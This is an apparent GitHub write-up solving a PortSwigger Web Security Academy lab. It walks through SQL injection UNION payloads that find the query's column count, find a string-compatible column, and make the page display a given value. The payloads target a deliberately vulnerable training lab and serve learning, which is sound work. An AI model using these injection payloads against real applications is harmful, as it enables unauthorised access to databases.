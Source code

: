 [Source](https://portswigger.net/web-security/sql-injection/union-attacks/lab-find-column-containing-text)
## Task
This exercise contains a SQL injection vulnerability in the product category filter. The query results are returned in the application response, so we can use a `UNION` attack to extract data from other tables. To build such an attack, we first need to determine the number of columns returned by the query. This can be done using the technique learned in the previous exercise. The next step is to determine the column that is compatible with string data.

The exercise will provide a random value that needs to be forced to appear in the query results. To solve the task, perform a SQL injection attack using the `UNION` operator, which will return an additional row with the provided value. This technique will help you determine which columns are compatible with string data.
## Solution
Go to the site

![image](images/20241201183252.png)

Select any category (I chose `Lifestyle`). Find how many columns there are in total:
```SQL
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
etc.
```
I found 3.
In `URL` we add
```SQL
' UNION SELECT 'a',NULL,NULL--
' UNION SELECT NULL,'a',NULL--
' UNION SELECT NULL, NULL,'a'--
```
The correct one here is `' UNION SELECT NULL,'a',NULL--`

![image](images/20241201184201.png)

The task on the site page says that you need to output the string `Ra0nUk` this way
```SQL
' UNION SELECT NULL,'Ra0nUk',NULL--
```

![image](images/20241201184316.png)
